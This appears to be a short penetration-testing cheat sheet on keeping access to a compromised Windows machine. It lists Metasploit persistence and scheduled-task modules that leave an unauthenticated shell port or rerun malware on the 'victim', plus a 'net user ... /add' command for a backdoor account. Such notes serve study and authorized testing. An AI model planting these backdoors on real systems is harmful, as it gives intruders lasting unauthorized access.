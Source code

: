 ### How to maintain access
For maintaining access you can do many things you might use metasploit to run some persistence script or add a user manually

##### Metasploit
In metasploit the following persistence script will open a remote port on the target machine with no authentication so when you try to connect to that port you will get a shell
```bash
run persistence -h

exploit/windows/local/persistence

exploit/windows/local/registry_persistence
```

The following scripts will run schedule tasks. So if you have a malware in the victim machine then you can schedule the machine to run that malware every 30 mins so if the computer is rebooted in between it will again run in every 30 mins and you will get a shell

```bash
run scheduleme

run schtaskabuse
```

##### Manual
If you don't want that much complexity you can simple add a new user and login through that user
```powershell
net user <username> <PASS> /add
```

![[Pasted image 20210730090727.png]]